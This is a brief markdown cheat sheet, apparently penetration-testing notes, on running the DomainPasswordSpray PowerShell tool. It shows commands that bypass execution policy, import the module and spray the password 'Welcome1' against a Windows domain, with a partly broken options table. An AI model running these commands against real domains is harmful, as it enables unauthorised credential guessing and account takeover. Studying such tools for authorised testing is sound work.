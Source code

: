 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [get start](#get\start)

## Table of Contents

    - [get start](#get\start)

#domainpasswordspray 

### get start



`powershell.exe -exec bypass`

`Import-Module DomainPasswordSpray.ps1`

```powershell-session
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

| options|  descriptions|
| -- | -- |
|UserList | - Optional UserList parameter. This will be generated automatically if not specified.
|Password| A single password that will be used to perform the password spray. |
|PasswordList|- A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
OutFile           - A file to output the results to.
|Domain|            - A domain to spray against.
Force             - Forces the spray to continue without prompting for confirmation.
